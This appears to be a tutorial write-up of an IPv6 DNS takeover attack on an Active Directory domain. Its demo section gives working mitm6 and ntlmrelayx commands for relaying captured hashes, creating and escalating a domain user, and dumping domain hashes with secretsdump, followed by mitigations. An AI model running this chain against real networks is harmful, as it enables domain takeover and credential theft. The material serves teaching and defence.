








# What is IPv6?

IPv6, or Internet Protocol version 6, is the most recent version of the Internet Protocol (IP) that is used to identify and locate devices on a network. It is designed to succeed IPv4, which has been the predominant version of the IP for many years. 

# What is an IPv6 DNS Takeover Attack

In an IPv6 DNS Takeover attack, imagine trying to send a letter (data) to your friend and you instruct a mailman (DNS server) to deliver the letter to the right address. Now a thief (Attacker) intercepts the letter in transit and changes the destination address on the envelope (the DNS records), to their (the attacker) own address. This can happen because the attacker tricks the mailman (DNS server) into thinking the specified address is correct.

In a DNS takeover, the attacker typically exploits vulnerabilities in the DNS infrastructure or configuration to gain control over the DNS records associated with a domain. This enables the attacker to redirect traffic intended for a legitimate website or domain to a server under their control. Such actions can lead to various malicious activities, including phishing, malware distribution, or interception of sensitive information.

# Attack DEMO

**Tools needed to perform this attack:**

- ntlmrelayx - If you don't have kali linux, download this script https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py. Kali Linux comes preinstalled with impacket tools. You can start it up using the command `impacket-ntlmrelayx` or first of all locate the script using `locate ntlmrelayx` then specify the full path of the tool to start it:

- mitm6 - Steps to install:
	-  git clone https://github.com/dirkjanm/mitm6.git
	- cd mitm6 
	- pip install -r requirements.txt
	- sudo python2 setup.py install
	- sudo mitm6 ✅

## Step 1: Start up ntlmrelayx and mitm6

ntlmrelayx:

`impacket-ntlmrelayx -6 -t ldaps://DOMAIN-IP -wh fakewpad.DOMAIN.local -l loot`
The IP specified is the Domain IP address. The information dumped will be stored in a folder named loot.

mitm6:

`sudo mitm6 -d DOMAIN.local`
Target Domain specified.

## Step 2: An Even Occurs in the Network

We need an event to trigger. For example, we can wait for a victim to restart their machine.
After an event is triggered, the victim's hash is captured and relayed to the Domain Controller to authenticate and information about the Domain is dumped

Top is the **ntlmrelayx** and bottom is **mitm6**.

## Step 3: Inspect Loot

Information about the domain is dumped in the folder specified called `loot`

Information is dumped in 3 different formats: JSON,HTML,GREP

Now the event triggered was due to a system reboot which caused information about the domain to get dumped. What of an event like a user login was triggered instead?

## Another Event is triggered (Login)

A user logs in to a system as the Domain Administrator

## Restart ntlmrelayx

After this event occurs, restart the ntlmrelayx and a Domain user will be automatically created.

`username: OTCJytDYGp and password: Zf;vifJvQU56$cw`

Confirmation that the user was indeed created.

Although this user is only a domain user.

## Privilege Escalation

We can also escalate their privileges to **Domain Admin**:

By adding `--escalate-user <username>` we can perform this action.

Next is to wait for another event to trigger and restart ntlmrelayx.

This results in a successful Privilege Escalation of the user. The user has successfully been added to the Enterprise Admins Group.

## Dumping Hashes

We can now dump hashes with our newly created user credentials

`impacket-secretsdump -dc-ip DOMAIN-IP -just-dc DOMAIN.local/'username':'password'@DOMAIN-IP`

# Mitigation

**Mitigation Strategies:**

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4 -only environments. If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

2. If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc Service.

3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

